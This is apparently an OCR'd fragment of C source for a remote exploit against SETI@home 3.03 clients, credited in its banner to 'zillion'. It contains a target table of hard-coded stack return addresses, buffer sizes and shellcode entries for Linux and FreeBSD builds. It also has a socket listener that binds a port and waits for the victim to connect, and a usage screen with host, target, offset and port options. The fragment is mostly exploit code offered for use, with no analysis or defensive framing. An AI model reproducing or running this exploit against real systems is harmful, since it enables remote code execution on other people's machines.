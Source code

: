     struct target targets[] =
    {
      {0,  "Linux  2.2.* ", "3.03.i386      linux-gnu-gnulibc2.1 ", "Packet retr mode", linux_shellcode,
       0xbffff420, 520, 500, 0},
      {1,  "Linux  2.4.* ", "3.03 i386/i686 linux-gnu-gnulibc2.1 ", "Packet retr mode", linux_shellcode,
       0xbffff390, 520, 500, 1},
      {2,  "Linux  2.*   ", "3.03.i386/i686 linux-gnulibc1-static", "Packet retr mode", linux_shellcode,
      0xbffff448, 520, 500, 1},
      {3,  "All above    ", "3.03.i386      linux*               ", "Packet retr mode", linux_shellcode,
       0xbffff448, 520, 300, 1},
      {4,  "FreeBSD      ", "3.03.i386      FreeBSD-2.2.8        ", "Packet retr mode", freebsd_shellcode,
     0x0004956c, 520, 1, 2},
      {5, NULL, NULL, NULL, NULL, 0, 0, 0}
    };

    int open_socket(int port)
    {

      int sock,fd;
      struct sockaddr_in cliAddr, servAddr;

      sock = socket(AF_INET, SOCK_STREAM, 0);
       if(sock<0) {
        printf("Error: Cannot open socket \n");
        exit(1);
      }

      /* bind server port */
      servAddr.sin_family = AF_INET;
      servAddr.sin_addr.s_addr = htonl(INADDR_ANY);
      servAddr.sin_port = htons(port);

      if(bind(sock, (struct sockaddr *) &servAddr, sizeof(servAddr))<0) {
        printf("Error: Cannot bind to port %d \n",port);
        exit(1);
      }

      listen(sock,5);
      fd=accept(sock,0,0);

      return fd;
    }

    void usage(char *progname) {

      int i;

      printf("\n---------------------------------------------------");
      printf("\n  *- Seti@Home remote exploit by zillion (s-m0de) -*");
      printf("\n---------------------------------------------------");
      printf("\n\nDefault      : %s  -h <target host>",progname);
      printf("\nTarget       : %s  -t <number>",progname);
      printf("\nOffset       : %s  -o <offset>",progname);
      printf("\nPort         : %s  -p <port>\n",progname);
      printf("\nDebug        : %s  -d \n",progname);
